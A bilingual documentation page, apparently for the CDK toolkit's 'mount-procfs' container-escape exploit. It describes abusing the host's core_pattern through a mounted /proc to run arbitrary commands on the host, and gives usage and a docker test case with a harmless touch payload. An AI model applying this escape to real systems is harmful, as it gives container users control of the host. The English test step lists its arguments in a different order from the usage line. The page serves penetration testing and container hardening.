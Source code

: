 # Exploit: mount-procfs

自动化逃逸挂载宿主机/proc目录的容器。

该脚本将用户指定的shell命令指向宿主机`/sys/kernel/core_pattern`文件，在容器空间通过segment fault触发core dump，进而触发shellcode执行。

Automatic escape container which mounts host process filesystem (usually `/proc` dir).

This exploit will first point user-defined shell cmd to host `/sys/kernel/core_pattern` file, then use runtime segment fault to trigger core dump inside container, and the shell code will be executed by target host.

See Also:

* https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/

## Usage
```
cdk run mount-procfs <proc-dir> "<shell-cmd>"
# after exploit, the target host will execute user-specified commands in <shell-cmd> arg.
```

## Example

测试案例

1. 宿主机启动测试容器，挂载宿主机的procfs，尝试逃逸当前容器。`docker run -v /root/cdk:/cdk -v /proc:/mnt/host_proc --rm -it ubuntu bash`
2. 容器内部执行 `./cdk run mount-procfs /mnt/host_proc "touch /tmp/exp-success"`
3. 宿主机中出现`/tmp/exp-success`文件，说明exp已经成功执行，攻击者可以在宿主机执行任意命令。

Testing Case

1. run a container in host `docker run -v /root/cdk:/cdk -v /proc:/mnt/host_proc --rm -it ubuntu bash`, try to escape this container using CDK.
2. attach into the container and execute `./cdk run /mnt/host_proc mount-procfs "touch /tmp/exp-success"`
3. back to the host, check `/tmp/exp-success` file exists, which means our shell cmd was executed successfully. by modifying `<shell-cmd>` arg you can exec any cmd you want in target host.

![](https://static.cdxy.me/20201124172505_3V7TYB_Screenshot.jpeg)
